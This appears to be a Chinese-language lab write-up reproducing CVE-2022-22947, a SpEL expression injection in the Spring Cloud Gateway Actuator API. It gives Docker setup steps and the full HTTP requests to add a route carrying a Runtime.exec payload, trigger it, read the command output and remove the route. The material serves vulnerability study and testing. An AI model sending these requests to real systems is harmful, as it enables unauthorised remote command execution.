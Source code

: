 # Spring Cloud Gateway Actuator API SpEL表达式注入命令执行 CVE-2022-22947

## 漏洞描述

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22947
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

## 环境搭建

Vulhub执行如下命令启动一个使用了Spring Cloud Gateway 3.1.0的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是example.com。

![image-20220303205830334](./images/202203032058450.png)

## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

![image-20220303210101595](./images/202203032101702.png)

然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20220303210310706](./images/202203032103775.png)

发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20220303210439398](./images/202203032104469.png)

最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

![image-20220303210537118](./images/202203032105191.png)

## 开源POC

- Xray

- https://github.com/chaosec2021/CVE-2022-22947-POC

